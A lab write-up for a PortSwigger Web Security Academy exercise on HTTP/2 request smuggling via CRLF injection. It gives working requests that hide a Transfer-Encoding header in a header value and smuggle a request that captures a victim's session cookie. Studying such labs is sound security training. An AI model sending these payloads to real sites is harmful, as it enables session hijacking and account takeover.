


# [HTTP/2 request smuggling via CRLF injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection)

## goal

- get the victim session cookie and insert it in your browser

## idea (H2.TE desync)

> the recent search keywords suggested over the searchbar

- the front-end server speaks **HTTP/2** to the browser
- the front-end server speaks **HTTP/1.1** to the back-end
- it **downgrades** every request

> **HTTP/2** is binary so a header value can safely hold a newline: `\r\n`

- front-end does not strip that newline during the downgrade
- this newline splits one header into two header lines on the backend (**HTTP/1.1** side)
- smuggle a `Transfer-Encoding: chunked` header the front-end never meant to send

## recon

- you will have to send two requests

> first request:

- send the original `/` to the repeater
- update it to the following

```
POST / HTTP/2
Host: xxx.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /qwe HTTP/1.1
X-Ignore: x
```

- after the `X-Ignore: x` there is no new-line `\r\n`

> second request:

- just an original `/` request
- this does not work because the `Transfer-Encoding: chunked` stripped during the downgrade

> lets hide the the `Transfer-Encoding: chunked` in the first request header

```
POST / HTTP/2
Host: xxx.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
duck=quack\r\nTransfer-Encoding: chunked

0

GET /qwe HTTP/1.1
X-Ignore: x
```

- the `duck=quack\r\nTransfer-Encoding: chunked` is a special case

> `duck=quack\r\nTransfer-Encoding: chunked`

- to add this header you have to add it trough the request header section



- after giving the `quack` value hit `shift+enter` and add the `Transfer-Encoding: chunked`
- it will give the `kettled` warning, but that is fine



- try to send the first adn then the second request again
- on the second request it should be `404` (might need to try it couple times, the victim hovers around)

## exploit

- search for a word in the page, then send that to the repeater

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Cookie: session=gTLGcYe5wuaTv47il8kWYc484Dp8Qx3L
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

search=duck
```

- set this up for the smuggled request in the first request

```
POST / HTTP/2
Host: 0a16002004353cb78095033a003b0018.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
duck=quack\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a16002004353cb78095033a003b0018.web-security-academy.net
Cookie: session=gTLGcYe5wuaTv47il8kWYc484Dp8Qx3L
Content-Type: application/x-www-form-urlencoded
Content-Length: 1100

search=duck
```

- the idea is the same, the `Transfer-Encoding: chunked` is `hidden` in the header (**kettled**)
- the smuggled `Content-Length` should be set at least as long as the original `/` request length is
- send only this request then wait around 20 sec, and refresh the home page
- there should be the victim session cookie
- insert it to you browser
